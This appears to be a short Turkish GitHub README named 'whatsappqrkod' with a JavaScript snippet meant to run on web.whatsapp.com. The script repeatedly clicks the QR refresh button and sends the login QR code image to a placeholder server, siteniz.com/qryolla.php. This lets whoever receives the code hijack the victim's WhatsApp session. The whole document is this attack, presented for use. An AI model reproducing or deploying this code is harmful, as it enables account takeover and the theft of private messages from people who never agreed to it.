 # whatsappqrkod
web whatsapp sayfasında bu kod çalışırsa siteniz.com yazan kısımdaki sunucunuza qr kodu resim şeklinde yollar.

var zaman = window.setInterval(qrkontrol, 2000);
function qrkontrol() {
  if (document.readyState == 'complete') {
    $service = window.location.href;
    if ($service.indexOf('web.whatsapp.com') >= 0)
    {
      if (document.getElementsByClassName('qr-button')[0] !== undefined)
      {
        document.getElementsByClassName('qr-button')[0].click();
      }
      if (document.getElementsByClassName('icon icon-chat')[0] == null)
      {
        var xhttp = new XMLHttpRequest();
        xhttp.open('GET', 'https://www.siteniz.com/qryolla.php?gidenqr=' + document.getElementsByTagName('img')[0].src, true);
	// qr kodu sunucuya gonder
        xhttp.send();
      }
    }
  }
}
